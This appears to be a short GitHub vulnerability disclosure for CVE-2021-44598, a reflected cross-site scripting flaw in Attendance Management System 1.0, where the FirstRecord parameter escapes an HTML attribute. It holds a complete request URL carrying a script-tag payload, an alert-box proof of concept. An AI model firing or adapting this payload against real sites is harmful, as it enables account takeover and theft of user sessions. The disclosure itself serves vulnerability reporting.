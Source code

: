 ## [CVE-2021-44598](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44598)

## [Vendor](https://www.sourcecodester.com/users/razormist)

## [Software](https://www.sourcecodester.com/php/14173/attendance-management-system.html#comment-96757)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-44598/Docs/Screenshot%202021-12-25%20132349.png)

## Description:
Attendance Management System 1.0 is affected by a Cross Site Scripting (XSS) vulnerability. 
The value of the FirstRecord request parameter is copied into the value of an HTML tag attribute which is encapsulated in double quotation marks. 
The attacker can access the system, by using the XSS-reflected method, and then can store information by injecting the admin account on this system.

[+] Payload:

```XSS
students_view.php?SearchString=&current_view=TV&SortField=&SelectedID=u9mwghcdjf5gwzikfb8htcyea73duurxiyzoo&SelectedField=1&SortDirection=&FirstRecord=1m1p75%22%3e%3cscript%3ealert('hello.from.nu11secur1ty')%3c%2fscript%3ejiairgg3ecj
```


## Proof and Exploit:
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-44598/Docs/CVE-2021-44598.gif)
